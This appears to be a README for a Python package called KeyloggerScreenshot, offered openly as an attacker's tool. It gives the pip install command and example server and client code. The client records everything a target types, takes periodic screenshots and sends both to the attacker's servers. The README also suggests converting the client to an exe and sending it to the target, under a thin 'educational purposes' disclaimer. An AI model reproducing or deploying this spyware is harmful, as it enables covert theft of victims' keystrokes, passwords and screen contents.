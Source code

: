 KeyloggerScreenshot
===================

Created by: Fawaz Bashiru
KeyloggerScreenshot allows the attacker to get all the information the target was typing and a screenshot of a specific minutes which is being calculated in the script

To install KeyloggerScreenshot simply type:

`pip install KeyloggerScreenshot`

In your terminal

HOW DOES KeyloggerScreenshot WORK?
==================================

This module can be used in Windows and Linux
The attacker should have two different servers on different files. The ip can be the same but the port number should be distinguished

For example:

Servers
------
```python
#server_photos.py:
ip, port = "127.0.0.1", 1234
server_photos = ServerPhotos(ip, port)
server_photos.start()

#server_keylogger.py:
ip, port = "127.0.0.1",5678
server_keylogger = ServerKeylogger(ip, port)
server_keylogger.start()

```

"server_photos.py" will get all the screenshots and "server_keylogger.py" will get everything the target has typed

Client_Target
-------------
```python
#client_target.py
key_client = KeyloggerTarget("127.0.0.1", 1234, "127.0.0.1",5678, duration_in_seconds=300)
key_client.start()

```

Additional
==========
* You can send "client_target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.

